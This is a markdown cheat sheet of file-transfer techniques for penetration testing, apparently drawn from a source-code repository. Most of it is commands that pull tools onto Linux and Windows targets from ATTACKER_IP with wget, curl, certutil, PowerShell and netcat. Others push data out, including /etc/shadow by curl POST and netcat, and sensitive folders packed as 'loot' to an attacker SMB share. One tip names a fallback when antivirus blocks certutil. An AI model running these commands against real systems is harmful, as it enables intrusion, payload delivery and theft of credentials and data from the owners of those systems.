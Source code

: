 # File Transfer Methods
---

## Serving Files from Kali

### HTTP Server (Most common)

```bash
# Simple HTTP server
python3 -m http.server 80

# Specific directory
cd /opt/tools
python3 -m http.server 8000

# With upload capability (using uploadserver)
pip3 install uploadserver
python3 -m uploadserver 80
```

### SMB Server

```bash
# Impacket SMB server
impacket-smbserver share . -smb2support

# With authentication
impacket-smbserver share . -smb2support -user user -password pass
```

### FTP Server

```bash
# Quick Python FTP
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w
```

---

## Download TO Linux Target

### wget
```bash
wget http://ATTACKER_IP/file
wget http://ATTACKER_IP/file -O /tmp/file
```

### curl
```bash
curl http://ATTACKER_IP/file -o file
curl http://ATTACKER_IP/file --output /tmp/file
```

### If No wget/curl

**Python:**
```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve("http://ATTACKER_IP/file", "file")'
```

**Netcat:**
```bash
# On Kali:
nc -lvnp 4444 < file

# On target:
nc ATTACKER_IP 4444 > file
```

---

## Download TO Windows Target

### certutil (Built-in)

```powershell
certutil -urlcache -f http://ATTACKER_IP/file.exe file.exe
```

### PowerShell

```powershell
# Invoke-WebRequest
Invoke-WebRequest -Uri "http://ATTACKER_IP/file.exe" -OutFile "file.exe"

# DownloadFile
(New-Object System.Net.WebClient).DownloadFile("http://ATTACKER_IP/file.exe", "file.exe")

# Short version
iwr -uri http://ATTACKER_IP/file.exe -outfile file.exe
```

### SMB

```powershell
# If you have SMB server running on Kali
copy \\ATTACKER_IP\share\file.exe C:\Temp\file.exe
```

---

## Upload FROM Linux Target

### HTTP POST

```bash
# On Kali (with uploadserver)
python3 -m uploadserver 80

# On target
curl -X POST -F "file=@/etc/shadow" http://ATTACKER_IP/upload
```

### Netcat

```bash
# On Kali:
nc -lvnp 4444 > received_file

# On target:
nc ATTACKER_IP 4444 < /etc/shadow
```

---

## Upload FROM Windows Target

### SMB (Easiest)

```bash
# On Kali:
impacket-smbserver share . -smb2support
```

```powershell
# On Windows:
copy C:\sensitive\file.txt \\ATTACKER_IP\share\file.txt
```

### PowerShell Upload

```powershell
# Upload to web server (if you have one accepting uploads)
Invoke-WebRequest -Uri "http://ATTACKER_IP:8000/upload" -Method POST -InFile "C:\data.txt"
```

---

## Large File Transfers

### Compression First

**Linux:**
```bash
# Compress before transfer
tar -czf loot.tar.gz /var/www/html/
# Then transfer loot.tar.gz
```

**Windows:**
```powershell
# Zip files
Compress-Archive -Path C:\sensitive\* -DestinationPath C:\Temp\loot.zip
# Then transfer loot.zip
```
---

## Troubleshooting

**"wget/curl not available on target"**
→ Try Python, Netcat, or PowerShell methods

**"certutil blocked by AV"**
→ Try PowerShell Invoke-WebRequest

**"Can't establish SMB connection"**
→ Check firewall, try HTTP instead

**"Transfer times out"**
→ File too large, compress first or split into chunks

---

